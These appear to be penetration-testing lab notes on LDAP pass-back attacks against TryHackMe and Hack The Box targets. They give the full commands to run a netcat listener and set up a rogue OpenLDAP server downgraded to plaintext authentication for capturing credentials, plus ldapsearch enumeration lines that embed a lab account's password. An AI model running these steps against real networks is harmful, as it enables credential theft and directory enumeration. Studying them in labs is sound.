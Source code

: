 # ldap
[https://vk9-sec.com/enumerating-ad-users-with-ldap/](https://vk9-sec.com/enumerating-ad-users-with-ldap/) 

LDAP Pass-back Attacks
----------------------

We can alter the LDAP configuration, such as the IP or hostname of the LDAP server. In an LDAP Pass-back attack, we can modify this IP to our IP and then test the LDAP configuration, which will force the device to attempt LDAP authentication to our rogue device. We can intercept this authentication attempt to recover the LDAP credentials.

using `nc -lvp 389` we get a callback with creds but it's hidden. We have to host a rogue ldap server with paintext passwords.

### Hosting a Rogue LDAP Server

we will use OpenLDAP, install and configure it with:

```text-plain
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
sudo dpkg-reconfigure -p low slapd
```

Terminal Prompt Steps:

1.  Make sure to press <No> when requested if you want to skip server configuration:
2.  For the DNS domain name, you want to provide our target domain, which is `za.tryhackme.com`
3.  Use this same name for the Organisation name as well:
4.  Provide any Administrator password
5.  Select MDB as the LDAP database to use
6.  For the last two options, ensure the database is not removed when purged
7.  Move old database files before a new one is created

Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods. To do this, we need to create a new ldif file, called with the following content:

filename: `olcSaslSecProps.ldif`

```text-plain
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

The file has the following properties:

*   **olcSaslSecProps:** Specifies the SASL security properties
*   **noanonymous:** Disables mechanisms that support anonymous login
*   **minssf:** Specifies the minimum acceptable security strength with 0, meaning no protection.

Now we can use the ldif file to patch our LDAP server using the following:

```text-plain
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```

We can verify that our rogue LDAP server's configuration has been applied using the following command:

```text-plain
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

to get details about ldap, when you have a password

```text-plain
ldapsearch -v -x -b "DC=support,DC=htb" -H "ldap://$IP" "(objectclass=*)" "sAMAccountName" -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' | grep sAMAccountName
```

for getting `CN` about a specfic group or user, use this:

```text-plain
ldapsearch -v -x -b "CN=support,CN=Users,DC=support,DC=htb" -H "ldap://$IP" "(objectclass=*)" -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```